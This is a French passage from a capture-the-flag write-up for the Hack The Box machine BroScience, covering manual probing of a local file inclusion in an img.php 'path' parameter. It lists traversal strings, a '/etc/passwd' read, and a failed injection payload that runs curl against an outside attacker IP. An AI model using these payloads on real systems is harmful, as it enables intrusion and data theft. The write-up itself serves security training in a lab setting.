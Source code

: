 La documentation d'apache 2.4 est également hébergée localement mais ne présente aucun intérêt :

<https://broscience.htb/manual/>

![BroScience-4](../../BroScience-4.png)

### Découverte manuelle du site
##### Fichier /includes/img.php

LFI potentielle via le paramètre path :

- Paramètre légitime :`/includes/img.php?path=deadlift.png`
- Protection présente retournant :

```HTTP/1.1 200 OK
Date: Wed, 15 Feb 2023 22:12:48 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 30
Connection: close
Content-Type: text/html; charset=UTF-8

<b>Error:</b> Attack detected.
```

- Motifs déclenchants ce blocage :
	- `../`
	- `/etc/passwd`
- Tentatives de contournement infructueuses :
	- `..%5c`
	- null byte
	- RFI
	- `' and die(system("curl http://10.10.14.147")) or '`
	- et autre suggestions provenant de <https://book.hacktricks.xyz/pentesting-web/file-inclusion>
